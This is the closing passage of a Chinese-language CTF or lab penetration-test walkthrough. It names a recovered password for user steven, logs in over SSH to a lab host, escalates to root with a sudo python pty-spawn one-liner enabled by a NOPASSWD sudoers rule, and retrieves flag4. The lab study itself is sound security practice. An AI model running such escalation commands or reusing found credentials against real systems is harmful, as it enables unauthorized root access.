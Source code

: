 找到steven密码pink84



#### 提权

使用**python pty提权**

```sh
sudo python -c 'import pty; pty.spawn("/bin/bash");'
```

michael用户进行python提权时，由于michael用户没有被赋予sudo执行python的权限，所以提权失败，并且该事件还被记录了

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626162718424.png)



ssh登录steven之后再尝试提权：

```sh
ssh steven@192.168.101.135
sudo python -c 'import pty; pty.spawn("/bin/bash");'
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626162930601.png)

steven是具有python sudo权限的，在sudoers里存在：

```sh
steven ALL=(ALL) NOPASSWD: /usr/bin/python
```

授予普通用户以root权限执行Python脚本（实战用不了一点）



用find命令或者直接找，在~目录下也能找到flag4

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230626163116227.png)



本次渗透测试完毕